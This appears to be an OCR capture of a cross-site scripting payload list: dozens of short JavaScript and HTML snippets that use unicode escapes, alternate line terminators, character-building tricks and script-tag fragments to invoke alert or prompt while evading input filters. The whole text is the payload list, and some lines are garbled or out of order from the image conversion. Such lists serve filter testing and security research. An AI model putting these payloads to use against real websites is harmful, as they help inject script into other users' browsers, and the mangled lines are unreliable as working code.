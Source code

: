 \u9998(1)
$\u5003=1
\u55FF=-1
_(a)(1); 
-alert(1)
c=e(s+a);
\u5001$=1
+-alert(1)
\u9997(1) 
\u5000$(1)
\u5001_=-1
0/alert(1)
--alert(1)
a=#1=alert;
\u002f/test
&#54280;=-1
[-alert(1)]
/\u002ftest
'test\u0027;
/test\u002f;
\u0022test";
\u0027test';
\u9997=alert
\u9998=alert
\u9999=alert
"test\u0022;
\u002ftest/;
@cc_off@cc_on
''in alert(1)
0 == ''//true
\u0061lert(1) 
v=(/t/+[])[1];
y=(/o/+[])[1];
z=(/C/+[])[1];
d=(/./+[])[1];
o=(/n/+[])[1];
<alert(/xss2/)
t=String(v+y);
x=(/r/+[])[1];
alert\u000a(1)
/^/in alert(1)
alert\u000D(1)
alert\u2028(1)
alert\u2029(1)
'); alert('XSS
i=(/i/+[])[1];
delete alert(1)
0 == '0'//true 
<SCRIPT>a=/XSS/
window.alert(1)
alert(o2.test);
alert(o1.test);
o2 = clone(o1);
o={a:#1=alert};
throw alert(1) 
typeof alert(1)
<? echo('<SCR)';
<;HTML>;<;BODY>;
top["alert"](6);
undefined=alert;
~[,].map(prompt)
'' == '0'//false
<HTML xmlns:xss>
x=new VBArray(a);